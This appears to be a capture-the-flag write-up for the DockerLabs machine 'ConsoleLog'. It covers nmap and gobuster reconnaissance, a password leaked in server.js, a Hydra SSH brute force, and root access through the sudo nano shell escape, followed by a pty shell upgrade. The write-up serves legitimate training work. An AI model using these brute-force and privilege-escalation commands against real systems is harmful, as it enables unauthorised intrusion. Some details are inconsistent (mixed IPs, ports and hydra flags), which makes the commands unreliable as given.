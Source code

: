 ```yaml
---
title: ConsoleLog Writeup - DockerLabs
date: 2024-08-09
categories:
    - Writeups
    - DockerLabs
tags:
    - Linux
    - DockerLabs
    - CTF
    - Easy
img_path: /assets/img/commons/consolelog/
image: consolelog.png
---
```


Hello!

In this write-up, we will dive into the **DockerLabs** machine [ConsoleLog](https://mega.nz/file/oGMWiKoJ#l02GwzicvsgLaczCjTSqaJNl5-NGajklpOY3A3Tu9to).

Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active:

```bash
ping -c 1 172.17.0.2
```


## Port scanning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv 172.18.0.2 -oG allPorts
```

The only open ports that we see are 80 (HTTP server), 3000 (API) and 5000 (SSH), we can see more information of the services by executing:

```bash
nmap -sCV 22,80 172.18.0.2 -oN targeted -oX targetedXML
```

![nmap](nmap.png)


## Exploitation
---
We see a button and the machine's name give us a clue, let's try to click the button and see what's the output of the console (there is a `console.log`)

We see a message: "Para opciones de depuración, el token de /recurso/ es tokentraviesito"

We can't see much more information so let's try to find hidden directories:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -r
```

![gobuster-report](gobuster.png)

We find the endpoint `/backend`. If we open it, we can see the following website:

![backend](endpoint_backend.png)

We can see a file named `server.js` let's see what it contains:

![server-js](server-js.png)

We have found a password, let's try to use Hydra to get into the SSH server:

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xat-net-10-million-usernames.txt -P lapa?????????todas ssh://172.17.0.2:5000 -s 22 -t 64
```

We can see now that the user is lovely, and we can access via SSH with his credentials:

```bash
ssh lovely@172.17.0.2 -p 5000
```

<br>

## Privilege escalation
---

First, we should export the xterm to easily work with the SSH terminal. We can do this just by executing the following:

```bash
export TERM=xterm
```

Now, as the user Lovely, we are able to run the command `sudo -l` to try to find superuser processes that we can run as the user prod:

![sudo-l](sudo-l.png)

We find that we can execute the `nano` tool as sudo.

We can access `nano` and obtain a shell by executing the following:

```bash
sudo nano
```

Once we are inside nano, we are going to type `CTRL+R` and then `CTRL+X`, we can now see that we can execute commands.

At this point, we are going to execute:

```bash
reset; sh 1>&0 2>&0
```

![privesc1](nano_privesc.png)

And now, we have access to a root priveleged terminal.

![root-sh](root-sh.png)

We can execute the following to get a full functional shell:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![privesc2](nano_privesc_2.png)

Now we have gained superuser access and we have the whole system committed.


> H4Ppy H4ck1ng!
